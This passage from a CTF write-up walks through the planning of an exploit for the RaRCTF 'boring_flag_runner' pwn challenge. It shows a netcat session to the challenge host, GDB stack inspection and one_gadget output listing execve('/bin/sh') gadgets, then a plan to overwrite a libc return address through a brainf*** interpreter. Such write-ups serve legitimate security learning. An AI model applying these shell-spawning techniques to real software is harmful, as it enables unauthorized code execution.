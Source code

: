 ```
knittingirl@piglet:~/CTF/RaRCTF/boring_flag_runner$ nc 193.57.159.27 28643
enter your program: GGGGGGGGC@GGGGC@GG@GGG@GGG@GBBBBFA@G@G@F@@GCBABFA@@E@FFFEGGGGGGGEEGGGE@@EBFEBEGGGEFFFFFFEFFFFFFFFE@@GE@GGE
```
Eventually, I realized that the problem was in the start.sh script; it is piping my output to /dev/null rather than letting me see it. As a result, while I can write pretty much whatever exploit script I want, I will not be able to get any visible leaks.
```
timeout 10 ./boring-flag-checker /tmp/$FILENAME > /dev/null
```

## Planning the Exploit

So, we effectively have complete control over the stack, albeit with no way to leak data to the console. When we run the binary by itself in GDB, we see that rbp itself is empty, rbp+0x8 contains a libc address, and rbp+0x10 contains another libc address.
```
gef➤  x/gx $rbp
0x7fffffffdfd0:	0x0000000000000000
gef➤  x/gx $rbp+0x8
0x7fffffffdfd8:	0x00007ffff7ded0b3
gef➤  x/gx $rbp+0x10
0x7fffffffdfe0:	0x00007ffff7ffc620
gef➤  x/5i 0x00007ffff7ded0b3
   0x7ffff7ded0b3 <__libc_start_main+243>:	mov    edi,eax
   0x7ffff7ded0b5 <__libc_start_main+245>:	call   0x7ffff7e0fbc0 <__GI_exit>
   0x7ffff7ded0ba <__libc_start_main+250>:	mov    rax,QWORD PTR [rsp+0x8]
   0x7ffff7ded0bf <__libc_start_main+255>:	lea    rdi,[rip+0x18fda2]        # 0x7ffff7f7ce68
   0x7ffff7ded0c6 <__libc_start_main+262>:	mov    rsi,QWORD PTR [rax]
```
At this point, I set a breakpoint for the very end of the main function, then checked the value of the rsi and rdx registers at that point. As I discussed in the writeup for "The Guessing Game" from this CTF (https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/RaRCTF/Guessing_Game), this version of libc has a onegadget that should be satisfied if the value or contents of rsi are 0, and the value or contents of rdx is 0. Both are true at the point that this gadget would be triggered. We would also need to set the value in rbp such that it - 0x78 is a writable address.
```
knittingirl@piglet:~/CTF/RaRCTF/guessing$ one_gadget libc6_2.31-0ubuntu9.2_amd64.so 
0xe6e73 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6e76 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
As a result, the basic idea is to modify the last 3 bytes of the value in rbp+0x8 to make it equal a onegadget. Then, since libc addresses are nearby on the stack, we can set rbp to equal one of them, then increase the address slightly to make it equal to somewhere in the writable section. All of this is possible within the brainf*** language.
